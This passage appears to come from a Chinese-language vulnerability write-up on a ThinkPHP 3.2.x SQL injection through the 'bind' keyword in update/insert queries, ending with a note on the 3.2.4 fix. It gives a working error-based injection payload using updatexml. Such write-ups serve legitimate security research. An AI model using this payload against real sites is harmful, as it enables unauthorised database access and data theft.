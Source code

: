 #### Payload


```sql
id[0]=bind&id[1]=0 and updatexml(1,concat(0x7e,user(),0x7e),1)
```




#### 总结


前面那篇exp的文章，如果使用了I函数，将不会引发注入，因为think_filter方法会在关键字后面加上空格。而update/insert
注入不存在这样的问题，因为关键字中并没有bind关键字，所以使用了I函数，我们还是能继续注入。thinkphp3.2.4的修复就是增加了bind关键字的过滤
